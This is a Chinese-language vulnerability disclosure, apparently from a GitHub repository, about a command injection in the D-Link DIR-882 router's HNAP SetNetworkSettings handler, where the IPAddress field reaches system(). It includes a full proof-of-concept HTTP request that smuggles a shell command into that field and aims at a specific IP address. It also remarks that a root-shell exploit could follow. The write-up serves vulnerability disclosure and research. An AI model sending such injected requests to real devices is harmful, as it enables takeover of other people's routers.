





# dlink dir 882路由器 存在命令注入漏洞

## 写在前面

• 厂商信息：https://www.dlink.com/

• 固件下载地址：https://tsd.dlink.com.tw/ddgo

## 1.影响版本



图1为固件版本信息

## 2.漏洞细节



程序通过/SetNetworkSettings/IPAddress获取到的内容传递给v6



之后将v6通过sprintf函数格式化进v39，通过system函数执行v39中的内容，存在命令注入漏洞

## 复现与POC

为了重现该漏洞，可遵循以下步骤

使用fat 仿真固件DIR882A1_FW130B06.bin

使用以下poc进行攻击

```jsx
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "<http://purenetworks.com/HNAP1/SetNetworkSettings>"
HNAP_AUTH: 3FD4E69D96091F37A00F8FEC98928CB5 1649128376185
Content-Length: 633
Origin: <http://81.70.52.167:7018>
Connection: close
Referer: <http://81.70.52.167:7018/Network.html>
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="<http://www.w3.org/2001/XMLSchema-instance>" xmlns:xsd="<http://www.w3.org/2001/XMLSchema>" xmlns:soap="<http://schemas.xmlsoap.org/soap/envelope/>">
<soap:Body>
<SetNetworkSettings xmlns="<http://purenetworks.com/HNAP1/>">
	<IPAddress>&& ls > /tmp/456 &&echo 1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```



图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

 

 